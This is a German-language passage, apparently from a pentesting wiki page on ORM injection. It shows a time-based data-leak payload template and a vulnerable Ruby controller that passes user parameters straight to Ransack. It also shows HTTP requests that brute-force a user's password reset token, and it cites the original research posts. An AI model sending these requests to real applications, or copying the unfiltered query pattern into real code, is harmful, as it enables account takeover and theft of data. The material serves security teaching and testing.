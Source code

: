 ```json
}
}
}
}
```
* **Error/Timed queries**: Im ursprünglichen Beitrag können Sie eine sehr umfangreiche Reihe von Tests lesen, die durchgeführt wurden, um die optimale Payload zu finden, um Informationen mit einer zeitbasierten Payload zu leaken. Dies ist:
```json
{
"OR": [
{
"NOT": {ORM_LEAK}
},
{CONTAINS_LIST}
]
}
```
Wo die `{CONTAINS_LIST}` eine Liste mit 1000 Zeichenfolgen ist, um sicherzustellen, dass die **Antwort verzögert wird, wenn das richtige Leak gefunden wird.**

## **Ransack (Ruby)**

Diese Tricks wurden [**in diesem Beitrag gefunden**](https://positive.security/blog/ransack-data-exfiltration)**.**

{% hint style="success" %}
**Beachten Sie, dass Ransack 4.0.0.0 jetzt die Verwendung einer expliziten Erlaubenliste für durchsuchbare Attribute und Assoziationen durchsetzt.**
{% endhint %}

**Anfälliges Beispiel:**
```ruby
def index
@q = Post.ransack(params[:q])
@posts = @q.result(distinct: true)
end
```
Beachten Sie, wie die Abfrage durch die vom Angreifer gesendeten Parameter definiert wird. Es war möglich, den Rücksetz-Token beispielsweise mit folgendem zu brute-forcen:
```http
GET /posts?q[user_reset_password_token_start]=0
GET /posts?q[user_reset_password_token_start]=1
...
```
Durch Brute-Forcing und potenziell Beziehungen war es möglich, mehr Daten aus einer Datenbank zu leaken.

## References

* [https://www.elttam.com/blog/plormbing-your-django-orm/](https://www.elttam.com/blog/plormbing-your-django-orm/)
* [https://www.elttam.com/blog/plorming-your-primsa-orm/](https://www.elttam.com/blog/plorming-your-primsa-orm/)
* [https://positive.security/blog/ransack-data-exfiltration](https://positive.security/blog/ransack-data-exfiltration)

